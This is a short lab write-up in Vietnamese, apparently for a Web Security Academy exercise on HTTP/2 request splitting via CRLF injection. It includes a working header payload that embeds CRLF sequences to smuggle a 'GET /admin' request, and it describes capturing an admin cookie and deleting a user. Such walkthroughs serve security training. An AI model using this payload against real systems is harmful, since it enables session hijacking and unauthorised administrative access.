

# Lab: HTTP/2 request splitting via CRLF injection

## Detect

Gửi giá trị header chứa CRLF thẳng ra ngoài thì server trả `400 Invalid request`.

```text
bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
Host: 0a5d001f035c202c80909a4200ad00c3.web-security-academy.net
```

```json
{
    "error": "Invalid request"
}
```

## Vì sao có thể khai thác

Đây là request splitting hơn là smuggling thuần túy: CRLF làm back-end tách giá trị header `Foo` thành một request mới. Nhờ vậy, request độc hại được “đẻ” ra từ chính header do nạn nhân gửi.

## Exploit

Sửa header thành:

```text
Foo: bar\r\n
Host: 0a5d001f035c202c80909a4200ad00c3.web-security-academy.net\r\n
\r\n
GET /admin HTTP/1.1
```

Khi victim truy cập `/`, back-end sẽ tách ra request thứ hai trong header `Foo`, từ đó lấy được cookie của admin.



Sau khi có quyền admin, xóa user `carlos` để hoàn tất lab.